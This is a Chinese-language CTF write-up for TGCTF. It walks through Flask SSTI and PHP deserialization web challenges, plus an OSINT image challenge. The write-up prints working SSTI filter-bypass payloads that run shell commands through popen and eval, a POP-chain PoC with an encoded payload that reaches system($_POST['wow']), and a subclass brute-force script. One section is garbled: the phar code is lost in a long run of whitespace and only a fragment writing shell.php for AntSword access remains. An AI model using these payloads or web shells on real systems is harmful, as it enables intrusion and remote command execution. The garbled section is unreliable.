


# TGCTF-wp

## web

### 直面天命

一进去看到这个页面，推测是ssti，但是试了下{{7*7}}发现被过滤了，然后查看下网页源代码

发现小提示

```
<!--听说不止一个路由，/hint好像是给天命人的礼物？-->
```

然后访问url/hint

发现小提示

```
hint
有一个由4个小写英文字母组成的路由，去那里看看吧，天命人!
```

这里告诉我们要去访问一个由4个小写英文字母组成的路由，这里我试了下爆破，但是数量太多bp太慢，实在受不了就买了个hint，然后知道了这个路由/aazz

访问url/aazz，没发现什么有用的信息，然后在网页源码里找到提示

```
 <!-- 狂风之中，恍惚之时，只听闻断续传来： ...参...数......？（本页面可以传参） -->
```

随便试了下传参filename，结果真的是这个。url?filename=app.py读取源码

```
import os
import string
from flask import Flask, request, render_template_string, jsonify, send_from_directory
from a.b.c.d.secret import secret_key

app = Flask(__name__)

black_list=['{','}','popen','os','import','eval','_','system','read','base','globals']
def waf(name):
    for x in black_list:
        if x in name.lower():
            return True
    return False
def is_typable(char):
    # 定义可通过标准 QWERTY 键盘输入的字符集
    typable_chars = string.ascii_letters + string.digits + string.punctuation + string.whitespace
    return char in typable_chars

@app.route('/')
def home():
    return send_from_directory('static', 'index.html')

@app.route('/jingu', methods=['POST'])
def greet():
    template1=""
    template2=""
    name = request.form.get('name')
    template = f'{name}'
    if waf(name):
        template = '想干坏事了是吧hacker？哼，还天命人，可笑，可悲，可叹<br>'
    else:
        k=0
        for i in name:
            if is_typable(i):
                continue
            k=1
            break
        if k==1:
            if not (secret_key[:2] in name and secret_key[2:]):
                template = '连“六根”都凑不齐，谈什么天命不天命的，还是戴上这金箍吧<br><br>再去西行历练历练<br><br>'
                return render_template_string(template)
            template1 = "“六根”也凑齐了，你已经可以直面天命了！我帮你把“secret_key”替换为了“{{}}”<br>最后，如果你用了cat，就可以见到齐天大圣了<br>"
            template= template.replace("直面","{{").replace("天命","}}")
            template = template
    if "cat" in template:
        template2 = '<br>或许你这只叫天命人的猴子，真的能做到？<br><br>'
    try:
        return template1+render_template_string(template)+render_template_string(template2)
    except Exception as e:
        error_message = f"500报错了，查询语句如下：<br>{template}"
        return error_message, 400

@app.route('/hint', methods=['GET'])
def hinter():
    template="hint：<br>有一个由4个小写英文字母组成的路由，去那里看看吧，天命人!"
    return render_template_string(template)

@app.route('/aazz', methods=['GET'])
def finder():
    filename = request.args.get('filename', '')
    if filename == "":
        return send_from_directory('static', 'file.html')

    if not filename.replace('_', '').isalnum():
        content = jsonify({'error': '只允许字母和数字！'}), 400
    if os.path.isfile(filename):
        try:
            with open(filename, 'r') as file:
                content = file.read()
            return content
        except Exception as e:
            return jsonify({'error': str(e)}), 500
    else:
        return jsonify({'error': '路径不存在或者路径非法'}), 404


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

然后就是代码审计了

我当时注意到了这里

```
from a.b.c.d.secret import secret_key
```

所以就想着用/aazz路由来读取secret

```
url/aazz?filename=/a/b/c/d/secret.py
```

拿到secret_key了

```
# 找到六根又如何？还不是听天由命？直面天命吧，天命人！
secret_key = "直面天命"
```

但是后面我发现，源码里就写了有直面天命啊，我纯纯多此一举

拿到secret_key后简单代码审计，发现很简单，这里会先检查我们的payload前2个字符必须为直面，后两个字符为天命，接着会将直面替换为{{，天命替换为}}，这里很明显了要我们ssti注入。

先看看waf过滤了哪些东西

```
black_list=['{','}','popen','os','import','eval','_','system','read','base','globals']
```

发现就过滤了一些关键字，可以用字符串拼接绕过，而最关键的大括号过滤也不用管了，源码自动给我们转换。

下划线可以用下划线的unicode编码，\x5f来替换

所以直接构造payload

```
直面lipsum['\x5f\x5fglo''bals\x5f\x5f']['o''s']['po''pen']('ls /')['re''ad']()天命
```

回显

```
“六根”也凑齐了，你已经可以直面天命了！我帮你把“secret_key”替换为了“{{}}”
最后，如果你用了cat，就可以见到齐天大圣了
Dockerfile a app.py bin boot dev etc flag home lib lib64 media mnt opt proc requirements.txt root run run.sh sbin srv static sys tmp usr var 描述和题解.txt
```

发现flag，直接cat读取

```
直面lipsum['\x5f\x5fglo''bals\x5f\x5f']['o''s']['po''pen']('cat /flag')['re''ad']()天命
```

拿到flag 

---

### 什么文件上传？

一进去就是个文件上传的页面



然后发现不管传什么都会显示hack，推测应该是白名单检测。然后查看网页源码发现。

```
<!-- 机器人是啥？ -->
```

很明显提示我们访问robots.txt



发现很多路径，但是试了一下只有/class.php能打开，这里还提示文件允许上传的格式后缀是三个小写字母，这里应该是要爆破出白名单。访问class.php

代码审计

```
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    function best64_decode($str)
    {
        return base64_decode(base64_decode(base64_decode(base64_decode(base64_decode($str)))));
    }
    class yesterday {
        public $learn;
        public $study="study";
        public $try;
        public function __construct()
        {
            $this->learn = "learn<br>";
        }
        public function __destruct()
        {
            echo "You studied hard yesterday.<br>";
            return $this->study->hard();
        }
    }
    class today {
        public $doing;
        public $did;
        public $done;
        public function __construct(){
            $this->did = "What you did makes you outstanding.<br>";
        }
        public function __call($arg1, $arg2)
        {
            $this->done = "And what you've done has given you a choice.<br>";
            echo $this->done;
            if(md5(md5($this->doing))==666){
                return $this->doing();
            }
            else{
                return $this->doing->better;
            }
        }
    }
    class tommoraw {
        public $good;
        public $bad;
        public $soso;
        public function __invoke(){
            $this->good="You'll be good tommoraw!<br>";
            echo $this->good;
        }
        public function __get($arg1){
            $this->bad="You'll be bad tommoraw!<br>";
        }

    }
    class future{
        private $impossible="How can you get here?<br>";
        private $out;
        private $no;
        public $useful1;public $useful2;public $useful3;public $useful4;public $useful5;public $useful6;public $useful7;public $useful8;public $useful9;public $useful10;public $useful11;public $useful12;public $useful13;public $useful14;public $useful15;public $useful16;public $useful17;public $useful18;public $useful19;public $useful20;

        public function __set($arg1, $arg2) {
            if ($this->out->useful7) {
                echo "Seven is my lucky number<br>";
                system('whoami');
            }
        }
        public function __toString(){
            echo "This is your future.<br>";
            system($_POST["wow"]);
            return "win";
        }
        public function __destruct(){
            $this->no = "no";
            return $this->no;
        }
    }
    if (file_exists($_GET['filename'])){
        echo "Focus on the previous step!<br>";
    }
    else{
        $data=substr($_GET['filename'],0,-4);
        unserialize(best64_decode($data));
    }
    // You learn yesterday, you choose today, can you get to your future?
?>
```

很明显的反序列化漏洞，而且在future类中还发现了危险函数system($_POST["wow"])，且参数还是我们可控的，直接post传参就行。发现有两个漏洞点能触发反序列化。

1、

```
if (file_exists($_GET['filename'])){
  echo "Focus on the previous step!<br>";
}
```

​    file_exists能触发phar反序列化，且filename是可控的，可以使用phar://伪协议。再配合首页的文件上传能将我们的phar文件上传，完全可以实现phar反序列化。

2、

```
  else{
     $data=substr($_GET['filename'],0,-4);
     unserialize(best64_decode($data));
  }
```

很明显unserialize能触发反序列化，但是这里会先对我们的pop链进行处理，会将末尾的4个字符截掉，并且会对我们的pop链进行5次base64解码，所以我们传入pop链之前先进行5次base64编码，然后在末尾添加4个任意字符。

这里我用的是第二个漏洞点，毕竟更简单。

构造pop链

```
yesterday->__destruct（$this->study->hard()）=>today->__call（return $this->doing->better;）=>future->__toString（system($_POST["wow"]);）
```

编写poc

```
<?php
class yesterday {
    public $study;
}

class today {
    public $doing;
}

class tommoraw {
    public $better;
}

class future {
    public $out;
}

$future = new future();

$today = new today();
$today->doing = $future;

$yesterday = new yesterday();
$yesterday->study = $today;

// 序列化 & 多次 base64 编码
$payload = serialize($yesterday);
for ($i = 0; $i < 5; $i++) {
    $payload = base64_encode($payload);
}
echo $payload;

?>
```

拿到pop链

```
Vm10b2QyUnJOVlpQV0VKVVlXeGFhRll3VlRCa01XUnpZVVYwYUUxWGVGcFpWRXB6VlVkR2NsWlVTbUZXUlRWUFZHMXpNVlpYU1hsaVIzQk9UVlZzTkZZeWRHOWpiVVpXVDBoa1VGSkdjRkJXYTJNMVkwWndSbGw2Vm1oTlYzaGFXVlJLYzFWSFJuSldWRXBoVmtVMVQxUnRjekZXVjBsNVlrZEdVMlZ0ZUROWFZ6QjRZVzFHVms5SVpGQlNSbkJRV1Zjd05XTkdaSFJPVm1ST1VqRktXbFV5TVRSVGJVWjBUMVJTVlUxcVZYZGFWM00xWTFaU1ZWZHJjR2xXUjNRMFYydFdUMU5yTkhoVmJrWnJVa2Q0ZEZZd1VrSlBVVDA5
```

payload：

```
class.php?filename=Vm10b2QyUnJOVlpQV0VKVVlXeGFhRll3VlRCa01XUnpZVVYwYUUxWGVGcFpWRXB6VlVkR2NsWlVTbUZXUlRWUFZHMXpNVlpYU1hsaVIzQk9UVlZzTkZZeWRHOWpiVVpXVDBoa1VGSkdjRkJXYTJNMVkwWndSbGw2Vm1oTlYzaGFXVlJLYzFWSFJuSldWRXBoVmtVMVQxUnRjekZXVjBsNVlrZEdVMlZ0ZUROWFZ6QjRZVzFHVms5SVpGQlNSbkJRV1Zjd05XTkdaSFJPVm1ST1VqRktXbFV5TVRSVGJVWjBUMVJTVlUxcVZYZGFWM00xWTFaU1ZWZHJjR2xXUjNRMFYydFdUMU5yTkhoVmJrWnJVa2Q0ZEZZd1VrSlBVVDA51234

post：wow=cat /flag
```

拿到flag

---

### 什么文件上传?复仇

感觉就是上题的升级版，还是访问class.php查看源码

```
<?php
highlight_file(__FILE__);
error_reporting(0);
function best64_decode($str)
{
    return base64_encode(md5(base64_encode(md5($str))));
    }
class yesterday {
    public $learn;
    public $study="study";
    public $try;
    public function __construct()
    {
        $this->learn = "learn<br>";
    }
    public function __destruct()
    {
        echo "You studied hard yesterday.<br>";
        return $this->study->hard();
    }
}
class today {
    public $doing;
    public $did;
    public $done;
    public function __construct(){
        $this->did = "What you did makes you outstanding.<br>";
    }
    public function __call($arg1, $arg2)
    {
        $this->done = "And what you've done has given you a choice.<br>";
        echo $this->done;
        if(md5(md5($this->doing))==666){
            return $this->doing();
        }
        else{
            return $this->doing->better;
        }
    }
}
class tommoraw {
    public $good;
    public $bad;
    public $soso;
    public function __invoke(){
        $this->good="You'll be good tommoraw!<br>";
        echo $this->good;
    }
    public function __get($arg1){
        $this->bad="You'll be bad tommoraw!<br>";
    }

}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
    public $useful1;public $useful2;public $useful3;public $useful4;public $useful5;public $useful6;public $useful7;public $useful8;public $useful9;public $useful10;public $useful11;public $useful12;public $useful13;public $useful14;public $useful15;public $useful16;public $useful17;public $useful18;public $useful19;public $useful20;

    public function __set($arg1, $arg2) {
        if ($this->out->useful7) {
            echo "Seven is my lucky number<br>";
            system('whoami');
        }
    }
    public function __toString(){
        echo "This is your future.<br>";
        system($_POST["wow"]);
        return "win";
    }
    public function __destruct(){
        $this->no = "no";
        return $this->no;
    }
}
if (file_exists($_GET['filename'])){
    echo "Focus on the previous step!<br>";
}
else{
    $data=substr($_GET['filename'],0,-4);
    unserialize(best64($data));
}
// You learn yesterday, you choose today, can you get to your future?
?>
```

代码审计

一开始还以为和之前没变化，然后仔细一看发现第二个漏洞点等于被ban掉了，这里会对我们的pop链进行base64编码+md5加密，所以基本上很难绕过了。

```
function best64_decode($str)
{
    return base64_encode(md5(base64_encode(md5($str))));
    }
```

所以很明显要我们进行phar反序列化，先去文件上传页面将白名单爆破出来，爆破出.atg后缀可以用

然后就是生成phar文件了

```
<?php
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  ?>" > /var/www/html/shell.php
```

然后用蚁剑连接，用蚁剑的插件查看phpinfo的信息，终于找到了flag在phpinfo里

---

### 直面天命复仇

刚看到这题我就怀疑应该又是和之前那题差不多，直接访问/aazz然后查看源码

```
<pre>import os
import string
from flask import Flask, request, render_template_string, jsonify, send_from_directory
from a.b.c.d.secret import secret_key

app = Flask(__name__)

black_list=['lipsum','|','%','{','}','map','chr', 'value', 'get', "url", 'pop','include','popen','os','import','eval','_','system','read','base','globals','_.','set','application','getitem','request', '+', 'init', 'arg', 'config', 'app', 'self']
def waf(name):
    for x in black_list:
        if x in name.lower():
            return True
    return False
def is_typable(char):
    # 定义可通过标准 QWERTY 键盘输入的字符集
    typable_chars = string.ascii_letters + string.digits + string.punctuation + string.whitespace
    return char in typable_chars

@app.route('/')
def home():
    return send_from_directory('static', 'index.html')

@app.route('/jingu', methods=['POST'])
def greet():
    template1=""
    template2=""
    name = request.form.get('name')
    template = f'{name}'
    if waf(name):
        template = '想干坏事了是吧hacker？哼，还天命人，可笑，可悲，可叹<br>'
    else:
        k=0
        for i in name:
            if is_typable(i):
                continue
            k=1
            break
        if k==1:
            if not (secret_key[:2] in name and secret_key[2:]):
                template = '连“六根”都凑不齐，谈什么天命不天命的，还是戴上这金箍吧<br><br>再去西行历练历练<br><br>'
                return render_template_string(template)
            template1 = "“六根”也凑齐了，你已经可以直面天命了！我帮你把“secret_key”替换为了“{{}}”<br>最后，如果你用了cat，就可以见到齐天大圣了<br>"
            template= template.replace("天命","{{").replace("难违","}}")
            template = template
    if "cat" in template:
        template2 = '<br>或许你这只叫天命人的猴子，真的能做到？<br><br>'
    try:
        return template1+render_template_string(template)+render_template_string(template2)
    except Exception as e:
        error_message = f"500报错了，查询语句如下：<br>{template}"
        return error_message, 400

@app.route('/hint', methods=['GET'])
def hinter():
    template="hint：<br>有一个aazz路由，去那里看看吧，天命人!"
    return render_template_string(template)

@app.route('/aazz', methods=['GET'])
def finder():
    with open(__file__, 'r') as f:
        source_code = f.read()
    return f"<pre>{source_code}</pre>", 200, {'Content-Type': 'text/html; charset=utf-8'}

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)</pre>
```

代码审计

这里/aazz的代码变了，不可控了，只能读取app.py源码，但是secret_key直接在源码里就能看到。应该只是把上题直接读取flag给ban了。这题的secret_key变成了`天命难违`，然后看了半天没发现其他变化，除了waf过滤变了

```
black_list=['lipsum','|','%','{','}','map','chr', 'value', 'get', "url", 'pop','include','popen','os','import','eval','_','system','read','base','globals','_.','set','application','getitem','request', '+', 'init', 'arg', 'config', 'app', 'self']
```

在之前的基础上又多过滤了一些东西。这里lipsum不给用了，所以得重新构造ssti payload。

payload构造：

首先这里我先用脚本找到能进行命令执行的类，即<class 'os._wrap_close'>

```
import requests
url = 'http://node1.tgctf.woooo.tech:31726/jingu'
for i in range(500):
	data = {"name":r"天命()['\x5f\x5fcla''ss\x5f\x5f']['\x5f\x5fba''se\x5f\x5f']['\x5f\x5fsubcl''asses\x5f\x5f']()["+str(i)+"]难违"}
	try:
		response = requests.post(url,data=data)
		#print(response.text)
		if response.status_code == 200:
			if 'os._wrap_close' in response.text:
				print(i)
	except:
		pass
		
		
		#输出132
```

然后就是payload构造了。

```
天命()['\x5f\x5fcla''ss\x5f\x5f']['\x5f\x5fba''se\x5f\x5f']['\x5f\x5fsubcl''asses\x5f\x5f']()[132]['\x5f\x5fin''it\x5f\x5f']['\x5f\x5fglo''bals\x5f\x5f']['po''pen']('ls')['re''ad']()难违


天命()['\x5f\x5fcla''ss\x5f\x5f']['\x5f\x5fba''se\x5f\x5f']['\x5f\x5fsubcl''asses\x5f\x5f']()[132]['\x5f\x5fin''it\x5f\x5f']['\x5f\x5fglo''bals\x5f\x5f']['po''pen']('cat /tgffff11111aaaagggggggg')['re''ad']()难违

这样也行
{{''.__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls /').read()")}}

天命''["\137\137\143\154\141\163\163\137\137"]["\137\137\155\162\157\137\137"][1]["\137\137\163\165\142\143\154\141\163\163\145\163\137\137"]()[137]["\137\137\151\156\151\164\137\137"]["\137\137\147\154\157\142\141\154\163\137\137"]['\137\137\142\165\151\154\164\151\156\163\137\137']['\145\166\141\154']("\137\137\151\155\160\157\162\164\137\137\050\047\157\163\047\051\056\160\157\160\145\156\050\047cat /tgffff11111aaaagggggggg\047\051\056\162\145\141\144\050\051")难违

拿到flag
```

---

## misc

### where it is(osint)


一个图片，flag形式为TGCTF{右上角轨道到站的站名}），所以我们要根据这张图片找到轨道到站的站名。
这种题一般直接给谷歌识图就行了，我这里是自己分析的，虽然很模糊但是能看到后面的门上写着内湖xx大学，而且全是繁体字，推测这张照片在台湾，所以直接百度，搜到内湖社区大学。


港墘站，所以payload为

```
TGCTF{港墘站}
```


